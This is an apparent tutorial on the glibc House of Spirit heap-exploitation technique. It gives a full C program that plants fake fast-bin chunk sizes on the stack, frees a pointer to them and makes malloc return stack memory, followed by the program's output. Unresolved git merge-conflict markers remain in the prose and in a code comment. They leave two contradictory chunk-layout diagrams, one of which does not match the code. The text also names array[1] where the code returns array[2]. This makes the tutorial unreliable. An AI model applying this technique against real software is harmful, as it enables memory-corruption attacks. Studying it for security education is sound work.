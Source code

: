 # House of Spirit Explanation

<<<<<<< HEAD
=======
Shoutout to `fanpu` for a fix to a mistake for the diagram.

>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
So this is a well documented C source file that explains how a House of Spirit attack works. It was ran on Ubuntu 16.04. Essentially with a House of Spirit attack, we create two fake chunks by writing two integers to a region of memory that will represent the sizes of the fake chunks. Then we get a pointer to point to the first fake chunk, and free it. Then we get malloc to return a pointer to that memory region. So it essentially allows us to get malloc to return a pointer to a region of memory that we can write two integers to.

It might seem a bit redundant since we can already write to this memory region. However if we can get malloc to return a pointer to a memory region, depending on the code we should be able to edit/view/manipulate that region of memory differently.

Here is the source code:
```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	puts("So we will be covering a House of Spirit Attack.");
	puts("A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).");
	puts("In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.");
	puts("To setup the fake chunks, we will need to write fake size values for the chunks.");
	puts("Also the first fake chunk is where we will want our chunk returned by malloc to be.");
	puts("Let's get started!\n");


	unsigned long array[20];
	printf("So we start off by initializing our array on the stack.\n");
	printf("Array Start: %p\n", array);
	printf("Our goal will be to allocate a chunk at %p\n\n", &array[2]);


	printf("Now we need to write our two size values for the chunks.\n");
	printf("There are three restrictions we have to meet.\n\n");

	printf("0.) Size of the chunks must be within the fast bin range.\n");
	printf("1.) The size values must be placed where they should if they were an actual chunk.\n");
	printf("2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.\n");
	printf("That should be larger than the argument passed to malloc.\n\n");

	printf("Also as a side note, the two sizes don't have to be equal.\n");
	printf("Check the code comments for how the fake heap chunks are structured.\n");
	printf("With that, let's write our two size values.\n\n");

	/*
	this will be the structure of our two fake chunks:
	assuming that you compiled it for x64

	+-------+---------------------+------+
	| 0x00: | Chunk # 0 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x08: | Chunk # 0 size      | 0x60 |
	+-------+---------------------+------+
	| 0x10: | Chunk # 0 content   | 0x00 |
	+-------+---------------------+------+
<<<<<<< HEAD
	| 0x70: | Chunk # 1 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x78: | Chunk # 1 size      | 0x40 |
	+-------+---------------------+------+
	| 0x80: | Chunk # 1 content   | 0x00 |
=======
	| 0x60: | Chunk # 1 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x68: | Chunk # 1 size      | 0x40 |
	+-------+---------------------+------+
	| 0x70: | Chunk # 1 content   | 0x00 |
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
	+-------+---------------------+------+

	for what we are doing the prev size values don't matter too much
	the important thing is the size values of the heap headers for our fake chunks
	*/

	array[1] = 0x60;
	array[13] = 0x40;

	printf("Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.\n");
	printf("This will be the ptr that we get malloc to return for this attack\n");

	unsigned long *ptr;
	ptr = &(array[2]);

	printf("Address: %p\n\n", ptr);

	printf("Now we will free the pointer to place it into the fast bin.\n");

	free(ptr);

	printf("Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].\n\n");

	unsigned long *target;
	target = malloc(0x50);

	printf("returned pointer: %p\n", target);

}
```

When we run it:
```
$	./house_spirit_exp 
So we will be covering a House of Spirit Attack.
A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).
In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.
To setup the fake chunks, we will need to write fake size values for the chunks.
Also the first fake chunk is where we will want our chunk returned by malloc to be.
Let's get started!

So we start off by initializing our array on the stack.
Array Start: 0x7ffd2d2cbc10
Our goal will be to allocate a chunk at 0x7ffd2d2cbc20

Now we need to write our two size values for the chunks.
There are three restrictions we have to meet.

0.) Size of the chunks must be within the fastin range.
1.) The size values must be placed where they should if they were an actual chunk.
2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.
That should be larger than the argument passed to malloc.

Also as a sidenote, the two sizes don't have to be equal.
Check the code comments for how the fake heap chunks are structured.
With that, let's write our two size values.

Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.
This will be the ptr that we get malloc to return for this attack
Address: 0x7ffd2d2cbc20

Now we will free the pointer to place it into the fast bin.
Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].

returned pointer: 0x7ffd2d2cbc20
```

